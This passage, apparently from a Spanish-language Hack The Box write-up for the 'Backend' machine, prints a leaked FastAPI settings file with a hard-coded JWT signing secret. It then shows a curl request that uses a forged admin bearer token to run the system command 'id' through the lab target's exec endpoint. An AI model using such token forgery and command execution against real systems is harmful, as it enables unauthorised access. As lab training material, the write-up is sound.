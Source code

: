 ```bash
{"file":"from pydantic import AnyHttpUrl, BaseSettings, EmailStr, validator\nfrom typing import List, Optional, Union\n\nfrom enum import Enum\n\n\nclass Settings(BaseSettings):\n    API_V1_STR: str = \"/api/v1\"\n    JWT_SECRET: str = \"SuperSecretSigningKey-HTB\"\n    ALGORITHM: str = \"HS256\"\n\n    # 60 minutes * 24 hours * 8 days = 8 days\n    ACCESS_TOKEN_EXPIRE_MINUTES: int = 60 * 24 * 8\n\n    # BACKEND_CORS_ORIGINS is a JSON-formatted list of origins\n    # e.g: '[\"http://localhost\", \"http://localhost:4200\", \"http://localhost:3000\", \\\n    # \"http://localhost:8080\", \"http://local.dockertoolbox.tiangolo.com\"]'\n    BACKEND_CORS_ORIGINS: List[AnyHttpUrl] = []\n\n    @validator(\"BACKEND_CORS_ORIGINS\", pre=True)\n    def assemble_cors_origins(cls, v: Union[str, List[str]]) -> Union[List[str], str]:\n        if isinstance(v, str) and not v.startswith(\"[\"):\n            return [i.strip() for i in v.split(\",\")]\n        elif isinstance(v, (list, str)):\n            return v\n        raise ValueError(v)\n\n    SQLALCHEMY_DATABASE_URI: Optional[str] = \"sqlite:///uhc.db\"\n    FIRST_SUPERUSER: EmailStr = \"root@ippsec.rocks\"    \n\n    class Config:\n        case_sensitive = True\n \n\nsettings = Settings()\n"}
```

### API Exec Commands


Podemos ver el secreto "SuperSecretSigningKey-HTB", ahora podemos crear nuestro propio JWT.

![](/assets/images/Backend/img7.png)

Ya podemos ejecutar comandos a nivel de sistema:

```bash
❯ curl -X GET "http://10.10.11.161/api/v1/admin/exec/id" -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjc5MDY5Nzk5LCJpYXQiOjE2NzgzNzg1OTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6IjEifQ.IJL3Nl4aVoG-wbiZA54YarQjtXBhCrHRHX9iXU4gNys';echo
"uid=1000(htb) gid=1000(htb) groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)"
```
